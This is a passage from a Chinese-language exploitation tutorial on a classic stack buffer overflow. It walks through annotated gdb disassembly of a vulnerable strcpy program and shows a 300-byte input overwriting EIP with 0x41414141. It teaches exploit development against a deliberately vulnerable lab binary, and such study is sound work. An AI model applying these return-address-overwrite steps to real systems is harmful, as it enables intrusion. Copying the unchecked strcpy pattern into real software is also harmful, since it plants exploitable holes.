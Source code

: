 任意代码执行是通过“返回地址覆盖(**Return Address Overwrite**)”技术实现的。这种方法帮助攻击者覆盖掉存储在栈内的返回地址，通过这种覆盖，任意代码执行得以实现。  

为了让大家更好地理解漏洞利用代码，我们在对它做进一步的分析之前，先来反汇编并画出漏洞代码的堆栈布局图吧！  

反汇编：

```
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:	push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:	mov    %esp,%ebp                 //set callee's ebp to esp
   0x08048417 <+3>:	and    $0xfffffff0,%esp          //stack alignment
   0x0804841a <+6>:	sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:	mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:	add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:	mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:	mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:	lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:	mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:	call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:	mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:	lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:	mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:	mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:	call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:	mov    $0x0,%eax                 //return value 0
   //Function Epilogue
   0x08048452 <+62>:	leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:	ret                              //return
End of assembler dump.
(gdb)
```
堆栈布局：  
![](../pictures/level1stacklayout.jpeg)  


根据已有知识，用户输入值大小超过256时会溢出目标缓冲区，并且覆盖存储于栈中的返回地址。让我们来通过发送一串“A”的方法进行测试。  

测试第一步： 是否会覆盖返回地址？  

``` 
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```
上述输出结果显示，EIP被“AAAAA”覆盖了，这就意味着返回地址被覆盖是有可能的!!  
